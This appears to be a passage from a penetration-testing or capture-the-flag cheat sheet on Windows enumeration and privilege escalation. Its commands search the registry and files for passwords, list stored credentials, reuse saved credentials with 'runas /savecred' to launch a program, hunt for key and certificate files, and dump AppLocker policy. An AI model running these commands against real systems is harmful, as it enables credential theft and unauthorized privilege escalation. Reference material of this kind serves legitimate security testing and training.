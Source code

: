 		type C:\WINDOWS\System32\drivers\etc\hosts

### Get network/shares informations

		ipconfig /all
		arp -A
		netstat -ano
		route print
		net share
		net use
		net session

### Check for passwords in the registry

		reg query HKLM /f password /t REG_SZ /s
		reg query HKCU /f password /t REG_SZ /s

		reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
		reg query "HKLM\System\CurrentControlSet\Services"

### Check for stored credentials

		cmdkey /list

	- Exploit with

			runas /savecred /user:admin C:\Path\To\Evil\Program.exe

### Check for services

		net start
		Get-Service | Where-Object -Property "CanStop" -Match True
		Get-Service | Where-Object -Property "CanStop" -Match True | Where-Object -Property "status" -eq running

### Get applocker policy

		$output = Get-ApplockerPolicy -Effective -xml
		$output > output.xml

	- Copy the xml file on local file server and check it inside a browser

### Check for files or file content inside the current directory

		dir flag* /s /b
		findstr /si password *.xml *.ini *.txt
		dir -ah

		icacls .

		C:\Users\nico\AppData\Roaming\Microsoft\Windows\Recent\

		gci -Recurse '\inetpub\*.cer' -Include *.cer,*.csr,*.key -ErrorAction SilentlyContinue
		gci -Recurse '\tmp\' -Include *.xml,*.ini,*.txt -ErrorAction SilentlyContinue | select-string -pattern 'test'
		gci -path \windows -recurse -Include *.txt -ErrorAction SilentlyContinue | select-string -pattern 'administrator'
